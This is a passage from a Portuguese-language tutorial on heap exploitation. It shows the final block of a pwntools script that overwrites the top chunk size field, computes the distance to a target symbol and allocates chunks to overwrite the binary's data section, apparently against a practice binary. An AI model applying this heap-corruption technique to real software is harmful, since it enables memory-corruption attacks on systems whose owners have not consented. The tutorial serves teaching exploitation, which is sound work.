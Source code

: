 Como a opção dois do programa, nos mostra o que está armazenado no *data section* do binário, ele nos retornará algo diferente dos "X" desta vez, conforme a imagem abaixo.

![Data section sobrescrito](/img/papers/heap_p1/paper_heap1_64.png)

Agora podemos adicionar esta chamada em nosso script, e automatizar a exploraçxão. O bloco final do script ficou como abaixo:

```py
#===============EXPLOITING================#
 
# sobrescrevendo o top chunk size field
malloc(24, b"A" * 24 + p64(0xffffffffffffffff))
 
# calculando a distancia para o data section da target
distance = delta(heap + 0x20, elf.sym.target - 0x20)
 
# solicitando um chunk do tamanho da distance e preenchendo
malloc(distance, b"A")

# sobrescrevendo o data section
malloc(24, b"BecoXPL")

#=========================================#
```
Agora podemos executá-lo pelo vim, porém sem incorporarmos ao GDB, mostrando que o script funciona em ambiente de produção, conforme abaixo.

![Executando o script](/img/papers/heap_p1/paper_heap1_65.png)
